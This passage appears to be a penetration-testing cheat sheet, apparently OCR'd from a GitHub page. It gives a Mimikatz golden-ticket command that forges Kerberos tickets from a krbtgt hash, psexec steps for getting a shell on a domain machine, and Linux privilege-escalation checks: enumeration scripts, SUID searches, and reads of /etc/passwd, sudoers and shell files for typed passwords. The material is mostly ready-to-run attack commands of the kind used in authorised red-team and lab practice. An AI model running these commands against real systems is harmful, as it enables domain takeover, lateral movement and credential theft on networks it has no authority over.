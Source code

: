 ```
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID from prev step> /krbtgt:<NTLM hash from prev step> /id:500 /ptt
misc::cmd # Opens up a new command prompt with the ticket 
dir \\<DOMAINUSER>\c$ # enumerate the directory of a domain user from our machine
# if we have psexec.exe downloaded to this machine, run it against the domain user in the previous step and you'll get a shell on that machine
psexec.exe \\<DOMAINUSER> cmd.exe
```
## Linux Enumeration
#### Automated Scripts
```
./LinEnum.sh -t    
./linpeas.sh
python Linprivchecker.py 
perl Linux_Exploit_Suggester.pl
python linexpchecker.py
./unix-privsc-check.sh standard
./lse.sh -l 1
```
#### System
- OS and kernels
```
uname -a
cat /etc/issue
cat /etc/redhat-release 
cat /etc/*-release
```
```
cat /etc/passwd
cat /etc/passwd | grep -v "/no/login" | grep -v "/bin/false" | grep -v "/nologin"
lastlog
```
```
find / \( -perm -g=s -o -perm -u=s \) -type f 2>/dev/null -print0 | xargs -0 ls -la
find / -perm -u=s -type f 2>/dev/null
```
#### Network
```
# Explore Home directory and file system
ls -lahR /root/
ls -lahR /home/
tree -a
# sudo
sudo -l
cat /etc/sudoers
sudo -i to exploit
# SUID/SGID
find / \( -perm -g=s -o -perm -u=s \) -type f 2>/dev/null -print0 | xargs -0 ls -la
find / -perm -u=s -type f 2>/dev/null
find / -type d -perm -o=w 2>/dev/null 
```
```
netstat -antp # Check Network Comms
netstat -antup # Check Network Comms, U for UDP
# world writeable files/folders
find / -perm -o=w -type f 2>/dev/null -print0 | xargs -0 ls -la 
```
```
# Passwords typed by the users
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
```